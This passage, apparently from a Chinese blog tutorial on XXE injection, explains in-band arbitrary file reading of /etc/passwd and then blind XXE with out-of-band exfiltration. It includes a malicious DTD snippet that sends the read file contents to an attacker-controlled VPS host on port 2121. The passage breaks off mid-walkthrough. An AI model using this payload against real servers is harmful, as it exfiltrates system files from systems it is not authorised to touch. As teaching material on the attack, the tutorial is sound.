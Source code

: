 

这里我们引用外部DTD实体，并且将 email 的值修改为引用外部实体的值 &file;   因为，返回包会返回email的值，所以返回包会读取我们引用的 /etc/passwd 的值返回给我们，造成了任意文件读取。



![](https://img-blog.csdnimg.cn/2020010711382638.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



利用详情：[XXE漏洞利用](https://blog.csdn.net/qq_36119192/article/details/103866581?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522158443059119724848318016%2522%252C%2522scm%2522%253A%252220140713.130056874..%2522%257D&request_id=158443059119724848318016&biz_id=0&utm_source=distribute.pc_search_result.none-task "XXE漏洞利用")



**Blind XXE**

-------------



如上例所示，服务器将 /etc/passwd 文件的内容作为响应返回给我们的XXE。但是在大多数情况下，即使服务器可能存在XXE漏洞，服务器也不会向攻击者的浏览器返回任何响应。遇到这种情况，可以实现OOB(out-of-band)信息传递和通过构造dtd从错误信息获取数据**。**无论是OOB、还是基于错误的方式，都需要引入外部DTD文件。



*   **OOB(Out-Of-Band)：**我们可以使用 Blind XXE 漏洞来构建一条外带数据OOB(Out-Of-Band)通道来读取数据。

*   **错误获取数据**：通过构造dtd然后从错误中获取数据



### 通过OOB进行目录浏览和任意文件读取



注：Linux机器可以目录浏览和任意文件读取，Windows机器只能任意文件读取



Blind XXE是由于虽然目标服务器加载了XML数据，但是不回显读取的数据。那么，我们是否可以想其他的办法，将服务器读取的数据传送给我们的VPS呢？



于是，我们想到了如下：



**VPS的操作**



首先，在我们的VPS上搭建一个Http服务，然后创建一个xml.dtd文件，内容如下



```
<!ENTITY % all "<!ENTITY &#x25; send SYSTEM 'http://VPS的地址:2121/%file;'>">      
%all;
```




 然后在VPS上用python在2121端口起另一个http服务


